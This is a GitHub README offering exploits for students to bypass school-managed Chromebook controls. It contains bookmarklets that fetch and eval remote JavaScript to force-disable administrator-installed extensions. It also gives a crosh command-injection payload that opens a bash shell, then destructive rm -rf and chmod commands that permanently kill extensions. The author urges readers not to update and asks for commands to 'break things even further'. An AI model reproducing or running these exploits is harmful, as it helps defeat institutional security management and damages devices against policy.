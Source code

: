 # ext remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF. And for some reason I put a unenroll exploit aswell yippee

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If you version is above 106, [try this method](https://github.com/3kh0/ext-remover#v106-and-above)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

## v106 and above

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended

STEPS:
1. Downgrade to any version below 101. Instructions are in [Chrome100.dev](https://chrome100.dev).
2. Hit `ctrl+alt+t` to open a crosh window. If it’s blocked by extensions, use LTBEEF. If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.
3. Type in `set_cellular_ppp \';bash;exit;\'` and hit enter. 
4. You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.
5. Type `rm -rf ~/Extensions/*`. **THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK.** If there are extensions you want to keep, they can be selectively removed by ID using `rm -rf ~/Extensions/InsertIdHere`
6. Run `chmod 000 ~/Extensions`. This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.
7. You can now restart chrome, allowing it to update to the latest version. Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

**Things you can’t do**
1. Run sudo or su into root. There might be ways to privilege escalate to root using disclosed chromium bug reports, but at the moment I have not gotten any of them to work on managed chromebooks
2. Enable dev mode or use dev mode things
3. Write to certain protected folders
4. Install packages
5. Install your own extensions. There is no way that known of (right now) to do that, so don’t ask. Please suggest any ideas.
6. Modify an existing extension. Extensions are checksummed before running, so any modification will result in chrome thinking the extension is “corrupted” and trying to redownload it, failing if the directory is marked readonly

<h1><b>NOTE:</b></h1> DO NOT DO THIS IF YOU DON'T KNOW WHAT YOU ARE DOING! I don't recommend anyone do this, but I can't really control your will. What I can do, though, is warn you. Doing ANY of this will violate your school's policy and will possibly get you banned from electronics. This sticks to your record, and you won't get rid of it. Think about it, are you REALLY that desperate?

If anyone knows some fun commands for the bash shell to break things even further, let me know!

Thanks to CoolElectronics for finding this amazing trick, trent:gra.im and justinchrm for helping with some parts, and the discoverer of the original bash shell exploit found here https://bugs.chromium.org/p/chromium/issues/detail?id=1329945

### Full unenrollment

<img src="https://media.tenor.com/x8v1oNUOmg4AAAAd/rickroll-roll.gif" alt="Rickroll GIFs | Tenor"/>

There are still so many more fun exploits, please [join the discord](https://discord.gg/unblock)
